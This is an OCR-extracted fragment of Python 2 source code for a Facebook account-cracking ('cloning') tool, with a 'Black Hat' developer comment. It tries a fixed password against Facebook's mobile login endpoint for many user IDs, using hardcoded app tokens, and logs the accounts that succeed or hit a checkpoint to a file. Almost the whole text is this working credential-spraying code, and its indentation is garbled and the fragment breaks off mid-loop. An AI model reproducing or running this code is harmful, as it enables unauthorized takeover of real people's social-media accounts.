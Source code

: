 	for o in titik:

		print("\r\033[1;97m[✔] Cloning Started\033[1;97m"+o),;sys.stdout.flush();time.sleep(1)

        print"""

[!] To Stop Process Press CTRL Then Z

---------------------------------------------------------"""		

			

	def main(arg):

		global cekpoint,oks

		user = arg

		try:

			os.mkdir('out')

		except OSError:

			pass #Dev:Black Hat

		try:

			a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)

			b = json.loads(a.text)

			pass1 = '786786'

			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

			q = json.load(data)

			if 'access_token' in q:

				x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])

				z = json.loads(x.text)

				print '\x1b[1;32mSuccessful\x1b[1;32m \x1b[1;32m¦\x1b[1;32m ' + user + ' \x1b[1;32m¦\x1b[1;32m ' + pass1	

				oks.append(user+pass1)

			else:

				if 'www.facebook.com' in q["error_msg"]:

					print '\x1b[1;97mCheckpoint\x1b[1;97m \x1b[1;97m¦\x1b[1;97m ' + user + ' \x1b[1;97m¦\x1b[1;97m ' + pass1	

					cek = open("out/checkpoint.txt", "a")

					cek.write(user+"|"+pass1+"\n")

					cek.close()

					cekpoint.append(user+pass1)
